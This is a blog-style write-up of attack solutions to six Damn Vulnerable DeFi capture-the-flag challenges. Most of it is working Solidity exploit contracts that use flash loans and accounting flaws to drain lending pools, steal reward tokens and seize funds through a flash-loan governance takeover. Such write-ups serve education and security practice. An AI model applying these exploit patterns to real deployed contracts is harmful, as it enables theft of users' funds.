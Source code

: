 ```yaml
---
title: Damn vulnerable defi Challenges
date: 2023-03-25 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## Challenge1

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```

## Challenge2

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

## Challenge3

Use ERC20 approve function and not it will not affect the balance when making flashloan.

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

## Challenge4

Use our deployed contract to send back the token using deposit function.After the flashloan call withdraw function to take our tokens back.
Do not forget to set the receive function for receiving tokens.
Use \_to.call function to send tokens,it is the current recommended method to use.

```javascript
contract Attack {
     function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value:msg.value}();
     }

     function attack(SideEntranceLenderPool pool,address payable player) external {
        //make a flashloan
        pool.flashLoan(1000 ether);
        //get the money
        pool.withdraw();
        //send to palyer
        (bool sent,) = player.call{value:1000 ether}("");
        require(sent, "Failed to send Ether");
     }

     receive() external payable {}
}
```

## Challenge5

The reward pool only count the amount of deposit. We can use flash loan to borrow some DVT token and claim the reward token at the same time.Here goes the code:

```javascript
contract TheRewardAttack {
    //flashloan pool address.
    FlashLoanerPool  private immutable pool;
    DamnValuableToken private immutable DVTtoken;
    TheRewarderPool private immutable RewardPool;
    RewardToken private immutable RdToken;
    address private owner;

    constructor(FlashLoanerPool _pool,DamnValuableToken _token,TheRewarderPool _RewardPool,RewardToken _Rdtoken,address player) {
        pool = _pool;
        DVTtoken = _token;
        RewardPool = _RewardPool;
        RdToken = _Rdtoken;
        owner = player;
    }

    function receiveFlashLoan(uint256 amount) external{
        //do something.
        //deposit to reward pool
        //approve amount to the reward pool
        DVTtoken.approve(address(RewardPool),amount);

        RewardPool.deposit(amount);

        //claim the rewards
        RewardPool.distributeRewards();

        //withdraw DVTtokens
        RewardPool.withdraw(amount);

        //return back DVT token.
        DVTtoken.transfer(address(pool),amount);

        //send reward token to our player.
        RdToken.transfer(owner,RdToken.balanceOf(address(this)));
    }

    function attack(uint256 amount) external{
        pool.flashLoan(amount);
    }
}
```

## Challenge6

This challenge is similar to the previous one.Firstly we use flashloan borrow some DVT token.Secondly we use the DVT token make a governance action.Finally two days later we make a executeAction to claim the DVT token to our attack contact and send it to our player.Here goes the entire code:

```javascript
pragma solidity ^0.8.0;

import "./SimpleGovernance.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "hardhat/console.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract SelfieAttack is IERC3156FlashBorrower {

    SelfiePool private immutable pool;
    SimpleGovernance private immutable governance;
    DamnValuableTokenSnapshot private immutable token;

    constructor(SelfiePool _pool,SimpleGovernance _governance,DamnValuableTokenSnapshot _token) {
        pool = _pool;
        governance = _governance;
        token = _token;
    }

    function onFlashLoan(address initiator,address _token,uint256 amount,uint256 fee,bytes calldata _data) external returns (bytes32){
        //receive DVT token from pool
        console.log("receive token:",DamnValuableTokenSnapshot(_token).balanceOf(address(this)));

        //make a snapshot ?
        DamnValuableTokenSnapshot(_token).snapshot();

        //submit an governance action
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)",address(this));

        governance.queueAction(address(pool),0,data);

        //approve DVT token to lending pool.
        DamnValuableTokenSnapshot(_token).approve(address(pool),amount);

        //return success bytes
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function exeAction(uint256 actionId) external {
        //execute the action
        governance.executeAction(actionId);
        //send token to mother fuck sender please
        DamnValuableTokenSnapshot(token).transfer(msg.sender,DamnValuableTokenSnapshot(token).balanceOf(address(this)));
    }

    function attack(uint256 borrowAmount) external {
        //make a DVT token flashloan
        pool.flashLoan(IERC3156FlashBorrower(this),address(token),borrowAmount,'0x');
    }
}
```
